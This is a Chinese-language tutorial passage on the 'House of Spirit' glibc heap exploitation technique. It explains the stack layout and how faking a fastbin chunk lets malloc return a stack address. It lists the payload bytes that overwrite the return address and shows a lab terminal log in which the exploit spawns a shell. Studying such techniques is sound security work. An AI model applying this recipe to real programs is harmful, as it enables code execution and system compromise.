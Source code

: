 使用攻击者的参数之后，上述漏洞程序的栈布局：

![6](http://upload-images.jianshu.io/upload_images/118142-0ce94a876aad8afb.png)

使用攻击者的参数，让我们看看返回地址如何覆盖。

行`[3]`：缓冲区溢出

+   这里攻击者的输入`argv[1]`复制到了字符缓冲区`name`中。因为攻击者的输入大于 44，变量`ptr1`和`loacl_age`被栈地址和块大小覆盖。
    +   栈地址（`0xbffffdf0`） -- 当行`[5]`执行时，攻击者欺骗 glibc malloc 来返回这个地址。
    +   块大小（`0x30`） -- 当行`[4]`执行时，这个块大小用于欺骗 glibc malloc。
    
行`[4]`：将栈区域添加到 glibc malloc 的 fastbin 中。

+   `free()`调用了`_int_free()`。现在在缓冲区溢出之后，`ptr1 = 0xbffffdf0 `（而不是`0x804aa08`）。被覆盖的`ptr1`作为参数传递给`free`。这欺骗 glibc malloc 来释放栈上的内存区域。被释放的这个栈区域的大小，位于`ptr1-8+4`，被攻击者覆盖为`0x30`。因此 glibc malloc 将这个块看做 fast 块（因为`48 < 64`），并将释放得快插入 fast binlist 的前面，位于下标 4。

行`[5]`：获取（在行`[4]`添加的）栈区域

+   malloc 请求 40 由`checked_request2size`转换为可用大小 48。由于可用代销 48 属于 fast 块，对应的 fast bin（位于下标 4）会被获取。fast binlist 的第一个块被溢出，并返回给用户。第一个块是在行`[4]`执行过程中添加的栈区域。

行`[6]`：覆盖返回地址

+   将攻击者的参数`argv[1]`复制到栈区域（由 glibc malloc 返回），它从`0xbffffdf0`位置开始。`argv[1]`的前 16 个字节是：
    +   `\xeb\x0e`：JMP 14 字节。
    +   `\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41`：填充。
    +   `\xb8\xfd\xff\xbf `：储存在栈上的返回地址会被这个值覆盖。因此在`fvuln`执行之后，EIP 是`0xbffffdb8` -- 这个位置包含 JMP 指令，之后是派生 shell 的 shellcode。
    
使用攻击者的参数执行漏洞程序会执行 shellcode，像这样：

```
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ gcc -g -fno-stack-protector -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ ./exp 

PTR1 = [ 0x804a008 ]
PTR1 = [ 0xbffffdf0 ]

AAAAAAAAAA????1?Ph//shh/bin??P??S?
$ ls
cmd  exp  exp.c  print	vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$
```

保护：直到现在，没有添加针对这个技巧的任何保护。这个技巧能帮助我们利用堆溢出，即使它使用最新的 glibc 编译。

House of Prime: TBU

House of Lore: TBU

注意：出于演示目的，所有漏洞程序都不使用下列 Linux 保护机制编译：

+   ASLR
+   NX
+   RELRO（重定向只读）

## 参考

+   [The Malloc Maleficarum](http://packetstormsecurity.com/files/view/40638/MallocMaleficarum.txt)